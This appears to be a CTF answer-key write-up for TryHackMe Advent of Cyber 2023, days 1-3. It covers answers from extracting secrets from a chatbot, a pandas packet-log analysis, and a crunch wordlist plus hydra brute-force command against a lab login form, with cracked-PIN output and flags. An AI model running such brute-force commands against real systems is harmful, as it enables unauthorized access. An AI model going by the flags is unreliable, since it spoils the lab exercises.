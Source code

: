 # [Day 1] Machine learning Chatbot, tell me, if you're really safe?
+ What is McGreedy's personal email address? `t.mcgreedy@antarcticrafts.thm`
+ What is the password for the IT server room door? `BtY2S02`
+ What is the name of McGreedy's secret project? `Purple Snow`
+ If you enjoyed this room, we invite you to join our Discord server for ongoing support, exclusive tips, and a community of peers to enhance your Advent of Cyber experience `No answer needed`

# [Day 2] Log analysis O Data, All Ye Faithful
+ Open the notebook "Workbook" located in the directory "4_Capstone" on the VM. Use what you have learned today to analyse the packet capture. `No Answer Needed`
```python
import pandas as pd
df = pd.read_csv('network_traffic.csv')
df.count() 
df.groupby(['Source']).size() 
df.groupby(['Protocol']).size()
```
+ How many packets were captured (looking at the PacketNumber)? `100`
+ What IP address sent the most amount of traffic during the packet capture? `10.10.1.4`
+ What was the most frequent protocol? `ICMP`
+ If you enjoyed today's task, check out the Intro to Log Analysis room. `No Answer Needed`

#[Day 3] Brute-forcing Hydra is Coming to Town
+ Using crunch and hydra, find the PIN code to access the control system and unlock the door. What is the flag? `THM{pin-code-brute-force}`
    - create list of password using crunch
    ```bash
    crunch 3 3 0123456789ABCDEF -o 3digits.txt
    Crunch will now generate the following amount of data: 16384 bytes
    0 MB
    0 GB
    0 TB
    0 PB
    Crunch will now generate the following number of lines: 4096 

    crunch: 100% completed generating output
    ```
    - brute - force the machine
    ```bash
    hydra -l '' -P 3digits.txt -f -v 10.10.215.76 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
    [8000][http-post-form] host: 10.10.215.76   password: 6F5
    [STATUS] attack finished for 10.10.215.76 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2023-12-04 02:15:53
    ```

+ If you have enjoyed this room please check out the Password Attacks room. `No Answer Needed`
